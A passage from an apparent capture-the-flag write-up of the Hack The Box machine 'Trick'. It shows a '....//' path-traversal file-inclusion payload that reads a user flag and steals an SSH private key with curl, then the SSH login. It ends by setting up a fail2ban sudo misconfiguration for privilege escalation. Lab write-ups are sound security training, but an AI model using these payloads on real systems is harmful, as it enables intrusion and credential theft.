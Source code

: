 
That looks familiar, but, ugh, we could already get this with the SQLi from earlier... maybe we're running as a different user for this site? We can't get `/etc/shadow` so we're probably not `root`, but maybe we're the `michael` user (or someone with access to their home)? They seem to be the only user on the box...

One `GET` to `http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//home/michael/user.txt` and we have our first flag! Woohoo!

# Get a grip (or a foothold)

Next step, let's get on this box. Fortunately `michael` is kind enough to have his private key in its default location, and it can be used for ssh:

```
$ curl -o id_rsa http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa
$ chmod 0600 id_rsa
$ ssh -i id_rsa michael@trick.htb
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$
```

# Do you prefer taking the elevator or the escalator?

Now that we've got reliable access we can try to get `root` access. We can start out by [running `linpeas` to see if we have anything interesting](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

One thing that pops up a lot in the output here is that we've running `fail2ban` (non-default, which is why it stands out) and _the `/etc/fail2ban/action.d` directory is writeable for our current user. The other thing that makes this really stand out as either a deliberate rabbithole, or our path to root, is that we also happen to have the ability to restart the `fail2ban` service as our _only_ `NOPASSWD` `sudo` privilege:

```
 (root) NOPASSWD: /etc/init.d/fail2ban restart
```

`fail2ban` is a great application in that it can be used to block IPs via iptables, or perform _other arbitrary actions_ when a given scenario is hit. A simple example is that if we multiple SSH failures are detected from an IP, `fail2ban` will block access from that IP via `iptables` for a set period of time. 

In this challenge, the situation above is exactly how it works, and it's set for a period of 10 seconds. Sure enough, it's also running as `root` so we can do whatever we want with this service as long as we can modify the config:
